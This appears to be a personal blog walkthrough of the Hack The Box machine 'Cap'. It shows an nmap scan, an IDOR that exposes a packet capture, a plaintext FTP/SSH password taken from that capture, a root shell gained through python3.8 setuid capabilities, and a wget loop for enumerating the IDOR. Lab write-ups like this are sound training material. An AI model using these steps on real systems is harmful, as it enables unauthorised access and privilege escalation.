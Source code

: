 ```yaml
---
title: "Cap - Writeup"
classes: single
ribbon: LightBlue
categories:
  - writeup
tags:
  - writeups
  - pentest
  - writeup
  - oscp
  - shell
  - exploit
  - htb
  - hackthebox
  - machine
  - easy
  - linux
toc: true
hide_title: true
excerpt: ""
sidebar:
        nav: "menu_writeups"
---
```


## Cap
![](https://kar0nx.github.io/assets/images/writeup/70ea3357a2d090af11a0953ec8717e90.png)
## Reconnaissance

IP: 10.10.10.245
## NMAP

```
nmap -T4 -p- -A 10.10.10.245
```

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-28 17:41 UTC
Nmap scan report for 10.10.10.245
Host is up (0.028s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    Gunicorn
|_http-title: Security Dashboard
|_http-server-header: gunicorn
Device type: general purpose|router
Running: Linux 5.X, MikroTik RouterOS 7.X
OS CPE: cpe:/o:linux:linux_kernel:5 cpe:/o:mikrotik:routeros:7 cpe:/o:linux:linux_kernel:5.6.3
OS details: Linux 5.0 - 5.14, MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3)
Network Distance: 2 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 53/tcp)
HOP RTT      ADDRESS
1   27.19 ms 10.10.14.1
2   27.27 ms 10.10.10.245

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.09 seconds

```

Starting with nmap we know that entry point is in http, so let's start to enumerate
## Website
### Site

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250828194750.png)

We see user Nathan, and nothing more here

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250828194820.png)

here we can download file but it is empty, url looks promising like IDOR so let's search from 0 to 10 manually, if nothing we will find then I will write bash script.

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250828195526.png)

Starting with 0 and we got hit XD

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250828195941.png)

Fast check on wireshark. Click Tools/ Credentials and we got username 2 lines later we have password

nathan Buck3tH4TF0RM3!

## Gaining Access

With credentials I connected via SSH and grab user flag

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250828200103.png)

## Privilege Escalation

Starting with linpeas I found capabilities for python3.8

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250828200345.png)

I have it in my notes, from Practical Ethical Hacker PEH course but I will leave a link from gtfobins for you.
https://gtfobins.github.io/gtfobins/python/#capabilities

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250828200638.png)

```
/usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250828200454.png)

And we can easily navigate to /root/root.txt

## Adding value

After all I read 0xdf writeup and found amazing loop for IDOR if file won't be in /0
https://0xdf.gitlab.io/2021/10/02/htb-cap.html

```
for i in {0..500}; do 
  wget 10.10.10.245/download/${i} -O pcaps/${i}.pcap 2>/dev/null || break; 
done;
```